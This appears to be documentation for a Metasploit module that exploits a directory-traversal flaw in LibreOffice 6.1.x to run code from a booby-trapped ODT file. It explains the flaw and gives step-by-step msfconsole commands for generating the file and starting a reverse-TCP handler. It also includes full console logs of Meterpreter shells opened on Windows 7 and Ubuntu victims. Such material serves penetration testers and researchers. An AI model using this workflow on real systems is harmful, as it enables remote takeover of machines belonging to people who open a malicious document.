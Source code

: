 ## Description

  This module exploits a directory traversal vulnerability in LibreOffice `v6.1.0-6.1.2.1` that enables remote code execution.
  Note: `6.0.x` and `6.1.3.x` versions are reportedly vulnerable to the directory traversal attack, but are not exploitable by
  this module due to the lack of ability to pass arguments.

  LibreOffice comes bundled with sample macros written in Python and allows the ability to bind program events
  to them. A macro can be tied to a program event by including the script that contains the macro and the function
  name to be executed. Additionally, a directory traversal vulnerability exists in the component that references the
  Python script to be executed. This allows a program event to execute functions from Python scripts relative to the
  path of the samples macros folder. The `pydoc.py` script included with LibreOffice contains the `tempfilepager` function
  that passes arguments to `os.system`, allowing RCE.

  This module generates an ODT file with a mouse over event that when triggered, will execute arbitrary code.

## Vulnerable Application

  LibreOffice `v6.1.0-6.1.4.1`. Vulnerable versions for both Windows and Linux can be found [here](https://downloadarchive.documentfoundation.org/libreoffice/old/).

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: ```use exploit/multi/fileformat/libreoffice_macro_exec```
  4. Do: ```set FILENAME <name>```
  5. Do: ```set LHOST <ip>```
  6. Do: ```set LPORT <port>```
  7. Do: ```run```
  8. Move the generated file to the target
  9. Start a handler
 10. Open the file with a vulnerable version of LibreOffice
 11. You should get a shell.

## Scenarios

### Tested on LibreOffice 6.1.2.1 running Windows 7

  ```
  msf > use exploit/multi/fileformat/libreoffice_macro_exec 
  msf exploit(multi/fileformat/libreoffice_macro_exec) > set lhost 192.168.37.1
  lhost => 192.168.37.1
  msf exploit(multi/fileformat/libreoffice_macro_exec) > run

  [+] librefile.odt stored at /Users/space/.msf4/local/librefile.odt
  msf exploit(multi/fileformat/libreoffice_macro_exec) > use multi/handler
  msf exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
  payload => windows/meterpreter/reverse_tcp
  msf exploit(multi/handler) > set lhost 192.168.37.1
  lhost => 192.168.37.1
  msf exploit(multi/handler) > run

  [*] Started reverse TCP handler on 192.168.37.1:4444 
  [*] Sending stage (179779 bytes) to 192.168.37.156
  [*] Meterpreter session 1 opened (192.168.37.1:4444 -> 192.168.37.156:49180) at 2019-04-12 15:14:04 -0500

  meterpreter > getuid
  Server username: WIN-MGMN7ND70I1\a_user
  meterpreter > sysinfo
  Computer        : WIN-MGMN7ND70I1
  OS              : Windows 7 (Build 7601, Service Pack 1).
  Architecture    : x64
  System Language : en_US
  Domain          : WORKGROUP
  Logged On Users : 1
  Meterpreter     : x86/windows
  ```

### Tested on LibreOffice 6.1.0.1 running Ubuntu 18.04

  ```
  msf > use exploit/multi/fileformat/libreoffice_macro_exec
  msf exploit(multi/fileformat/libreoffice_macro_exec) > set target 1
  target => 1
  msf exploit(multi/fileformat/libreoffice_macro_exec) > set lhost 192.168.37.1
  lhost => 192.168.37.1
  msf exploit(multi/fileformat/libreoffice_macro_exec) > run

  [+] librefile.odt stored at /Users/space/.msf4/local/librefile.odt
  msf exploit(multi/fileformat/libreoffice_macro_exec) > use multi/handler
  msf exploit(multi/handler) > set payload linux/x86/meterpreter/reverse_tcp
  payload => linux/x86/meterpreter/reverse_tcp
  msf exploit(multi/handler) > set LHOST 192.168.37.1
  LHOST => 192.168.37.1
  msf exploit(multi/handler) > run

  [*] Started reverse TCP handler on 192.168.37.1:4444
  [*] Sending stage (985320 bytes) to 192.168.37.174
  [*] Meterpreter session 1 opened (192.168.37.1:4444 -> 192.168.37.174:39912) at 2019-04-12 14:50:08 -0500

  meterpreter > getuid
  Server username: uid=1000, gid=1000, euid=1000, egid=1000
  meterpreter > sysinfo
  Computer     : 192.168.37.174
  OS           : Ubuntu 18.04 (Linux 4.18.0-16-generic)
  Architecture : x64
  BuildTuple   : i486-linux-musl
  Meterpreter  : x86/linux
  ```
